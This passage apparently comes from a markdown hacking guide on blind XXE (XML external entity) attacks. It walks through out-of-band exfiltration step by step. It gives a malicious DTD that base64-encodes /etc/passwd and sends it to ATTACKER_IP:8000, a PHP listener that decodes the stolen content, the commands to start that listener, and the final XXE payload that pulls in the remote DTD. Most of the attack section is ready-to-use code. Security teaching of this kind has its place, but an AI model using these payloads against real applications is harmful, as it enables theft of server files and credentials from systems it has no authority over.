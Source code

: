 **Result:** Error message contains file content
```
Error: Invalid URI: 'nonExistingEntity/[FILE_CONTENT]'
```

---

## 3. Blind Data Exfiltration

### Out-of-band (OOB) Data Exfiltration

#### Scenario: Completely Blind XXE
**Problem:** No entity output displayed AND no error messages shown
**Solution:** Out-of-band data exfiltration via HTTP requests

#### OOB Attack Methodology

**Theory:** Instead of displaying file content in response, make application send HTTP request to attacker server with file content as URL parameter

#### Manual OOB Technique

**Step 1: Create Exfiltration DTD**
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://ATTACKER_IP:8000/?content=%file;'>">
```

**Step 2: Setup Decoding Server**
```php
<?php
// index.php - Auto-decode base64 file content
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```

**Step 3: Start PHP Server**
```bash
# Save above PHP code to index.php
echo '<?php if(isset($_GET["content"])){error_log("\n\n" . base64_decode($_GET["content"]));} ?>' > index.php

# Start server to receive exfiltrated data
php -S 0.0.0.0:8000
```

**Step 4: OOB XXE Payload**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY % remote SYSTEM "http://ATTACKER_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```
